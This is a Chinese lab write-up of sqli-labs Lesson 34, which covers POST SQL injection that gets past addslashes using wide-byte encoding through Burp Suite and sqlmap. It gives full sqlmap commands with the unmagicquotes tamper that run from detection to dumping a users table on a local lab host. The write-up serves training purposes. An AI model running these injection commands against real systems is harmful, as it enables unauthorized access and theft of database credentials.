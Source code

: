 ```yaml
---
title: sqli-labs lession-34 POST-绕过AddSlashes
date: 2018-10-15 19:06:26
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-34 POST-绕过AddSlashes

---

## 登录界面

![001](/img/sql/Lesson-34/001.png)

## 注入

和前几课一样,不过类型是POST罢了。

这里hackbar不好用了,用burpsuite做。

![002](/img/sql/Lesson-34/002.png)

最终结果

![003](/img/sql/Lesson-34/003.png)

把Lesson-32的payload直接复制进uname就行，详细过程查看Lesson-32

{% post_link sqli-labs-lession-32-GET-绕过自定义过滤器-向危险字符添加斜杠 点击查看Lesson-32%}

## SQLMAP

```
--data :指定请求内容
-p uname:指定检测参数仅uname
--method POST:指定请求方式为POST
--dbms mysql:指定后端数据库为mysql
--threads 10:并发线程最大为10 
--technique E：指定检测payload为报错注入
--tamper unmagicquotes.py：unmagicquotes.py脚本会使用宽字节绕过方法
-v 3：

1.只显示python错误以及严重的信息。
2.同时显示基本信息和警告信息。（默认）
3.同时显示debug信息。
4.同时显示注入的payload。
5.同时显示HTTP请求。
6.同时显示HTTP响应头。
7.同时显示HTTP响应页面
```

`sqlmap -u "http://192.168.75.132/sql/Less-34/" --data "uname=admin'&passwd=123&submit=Submit" -p uname --method POST --dbms mysql --threads 10 --technique E --tamper unmagicquotes.py -v 3`

![004](/img/sql/Lesson-34/004.png)

![005](/img/sql/Lesson-34/005.png)

`sqlmap -u "http://192.168.75.132/sql/Less-34/" --data "uname=admin'&passwd=123&submit=Submit" -p uname --method POST --dbms mysql --threads 10 --technique E --tamper unmagicquotes.py --dbs`

![006](/img/sql/Lesson-34/006.png)

![007](/img/sql/Lesson-34/007.png)

`sqlmap -u "http://192.168.75.132/sql/Less-34/" --data "uname=admin'&passwd=123&submit=Submit" -p uname --method POST --dbms mysql --threads 10 --technique E --tamper unmagicquotes.py -D security --tables`

![008](/img/sql/Lesson-34/008.png)

![009](/img/sql/Lesson-34/009.png)

`sqlmap -u "http://192.168.75.132/sql/Less-34/" --data "uname=admin'&passwd=123&submit=Submit" -p uname --method POST --dbms mysql --threads 10 --technique E --tamper unmagicquotes.py -D security -T users --columns --dump`

![010](/img/sql/Lesson-34/010.png)

![011](/img/sql/Lesson-34/011.png)